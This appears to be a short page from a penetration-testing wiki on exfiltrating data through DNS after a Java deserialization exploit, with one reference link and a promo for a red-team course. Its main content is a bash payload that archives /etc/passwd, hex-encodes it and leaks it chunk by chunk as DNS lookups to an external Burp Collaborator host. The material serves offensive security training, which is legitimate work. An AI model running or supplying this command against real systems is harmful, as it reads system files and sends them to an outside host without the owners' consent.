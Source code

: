 ### Java Deserialization DNS Exfil information

Make your payload execute something like the following:
```bash
(i=0;tar zcf - /etc/passwd | xxd -p -c 31 | while read line; do host $line.$i.cl1k22spvdzcxdenxt5onx5id9je73.burpcollaborator.net;i=$((i+1)); done)
```
### More Information

* [https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/](https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
